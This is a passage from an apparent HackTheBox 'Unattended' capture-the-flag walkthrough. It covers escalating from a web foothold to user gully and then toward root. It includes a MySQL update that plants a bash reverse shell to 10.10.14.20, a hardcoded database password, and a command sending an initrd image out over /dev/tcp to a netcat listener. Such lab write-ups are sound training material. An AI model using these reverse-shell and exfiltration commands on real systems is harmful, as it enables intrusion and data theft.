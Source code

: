 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2003:24:46.png)

So, I will get a reverse shell now

We change it again

```
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e
use neddy;
update config set option_value = "bash -c 'bash -i >& /dev/tcp/10.10.14.20/80 0>&1'" where id = 86;
select * from config where id = 86;
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2003:37:56.png)

Wait one minute and get a reverse shell as gully

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2003:38:33.png)

# gully --> Root

Now let's get root on this box

Looking at the groups we see that we are part of the group `grub`, it seems interesting

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2002:37:07.png)

We look for the partitions that we have mounted on the file system

```sh
mount
find / -group grub -ls 2>/dev/null
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2002:37:28.png)

We send it to our Kali to analyse the disk better

```sh
cat initrd.img-4.9.0-8-amd64 > /dev/tcp/10.10.14.20/443
nc -nlvp 443 > init.img
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2002:38:48.png)

We decompress it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2002:45:51.png)

Ok, it's a file system, on the box we look for files created after the flag user date, to see what has been changed

```sh
find . -type f -newermt 2018-12-19 ! -newermt 2018-12-21 -ls
```
